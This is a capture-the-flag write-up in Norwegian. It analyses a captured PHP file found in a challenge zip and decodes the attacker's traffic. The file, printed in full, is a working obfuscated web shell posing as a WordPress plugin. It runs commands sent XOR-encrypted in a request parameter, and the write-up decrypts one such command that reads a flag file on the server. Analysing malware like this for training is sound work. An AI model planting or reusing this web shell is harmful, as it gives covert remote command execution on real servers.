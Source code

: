 # Taskname
> Author: Mx. Task

## Challenge

## Solution

Åpner enn zip filen fra oppgave 3 og henter ut `php` fila, så finner enn
```php
<?php
$zy='for($mlraebcn=0;$mlraebcn<strlen($sxvppfrx);) {';$dh='}';$eo='$iyofqbbj=xor_function($xcyneguv,$vkuttudd);';$yp='$vkuttudd=base64_decode($yhdqlqnp[0]);';$cv='$xcyneguv=base64_decode($yhdqlqnp[1]);';$nb='exec($iyofqbbj, $innqncqo,$inqnncqo);';$no='echo base64_encode(xor_function($yfottzqg,$vkuttudd));';$ao='function xor_function($sxvppfrx,$vkuttudd) {';$qb='}';$ck='return $kezuummn;';$jn='$kezuummn="";';$lp='$yfottzqg=implode("\n",$innqncqo);';$yn='$kezuummn.=$vkuttudd[$mlarebcn]^$sxvppfrx[$mlraebcn];';$di='$yhdqlqnp=explode(",",base64_decode($_REQUEST["waow"]));';$wl='}';$yk='for($mlarebcn=0;$mlarebcn<strlen($vkuttudd)&& $mlraebcn<strlen($sxvppfrx); $mlraebcn++,$mlarebcn++){';eval($di.$yp.$cv.$ao.$jn.$zy.$yk.$yn.$dh.$qb.$ck.$wl.$eo.$nb.$lp.$no)
?>
```
Med litt deobfuskering så ser enn at det blir mottatt et parameter `waow` som base64 dekodes. Derfra finner enn 2 nye base64 strenger, den første blir brukt som en XOR nøkkel, den andre er kommandoen, til slutt blir resultatet XOR kryptert med samme nøkkel og sendt tilbake som base64. Alt dette kan da dekodes og dekrypteres gjennom CyberChef.
Forespørslene blir sendt til `/wp-content/plugins/totallylegitplugin/totallylegitplugin.php`, eksempelvis fra flagget:

```
waow=YWpKNk1tNVlla0ZGZUZFNVZ3PT0sQ1ZNT0VrRXdGU3dnVnlaV0pRNUNDRmNkSzFVbktSazJGeU1TUmc9PQ%3D%3D
```
dekoder til
```
ajJ6Mm5YekFFeFE5Vw==,CVMOEkEwFSwgVyZWJQ5CCFcdK1UnKRk2FyMSRg==
```
og dekrypteres til kommandoen
```
cat /home/wordpress/flag.txt
```

Påfølgende respons
```
P3s7cToeASo3ASFNMhhGWkULOgkpIBQ9GTIYEhRdC3gSJDcTLA==
```
dekrypteres da til 
```
UIACTF{kryptert webshell er noe herk}
```
